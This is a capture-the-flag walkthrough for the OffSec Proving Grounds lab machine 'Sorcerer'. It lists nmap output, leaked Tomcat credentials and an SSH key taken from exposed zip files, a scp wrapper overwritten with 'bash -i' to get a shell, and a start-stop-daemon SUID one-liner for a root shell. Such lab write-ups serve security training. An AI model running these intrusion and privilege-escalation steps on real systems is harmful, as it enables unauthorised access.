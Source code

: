 # Sorcerer

## Info

Sorcerer is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
22/tcp    open  ssh      syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open  http     syn-ack ttl 61 nginx
111/tcp   open  rpcbind  syn-ack ttl 61 2-4 (RPC #100000)
2049/tcp  open  nfs      syn-ack ttl 61 3-4 (RPC #100003)
7742/tcp  open  http     syn-ack ttl 61 nginx
8080/tcp  open  http     syn-ack ttl 61 Apache Tomcat 7.0.4
37997/tcp open  nlockmgr syn-ack ttl 61 1-4 (RPC #100021)
41361/tcp open  mountd   syn-ack ttl 61 1-3 (RPC #100005)
50209/tcp open  mountd   syn-ack ttl 61 1-3 (RPC #100005)
50451/tcp open  mountd   syn-ack ttl 61 1-3 (RPC #100005)
```

## HTTP 7742

There is a directory containing zip files at the following url.

```
http://192.168.213.100:7742/zipfiles/
```

Each contains a home directory, unzipping max gives a ssh key and the following tomcat creds.

```
cat tomcat-users.xml.bak
```

```
tomcat:VTUD2XxJjf5LPmu6
```

## User

scp would not let me copy as the script output caused an error. Using the legacy option -O instead of sftp, I overwrite the bash script.

```
#!/bin/bash

bash -i
```

Upload to server.

```
scp -i max_id_rsa -O scp_wrapper.sh  max@192.168.213.100:/home/max
```

Sign in using ssh and get an interactive bash session.

```
ssh -i max_id_rsa max@192.168.213.100
```

## Root

There is a vulnerable SUID binary.

```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
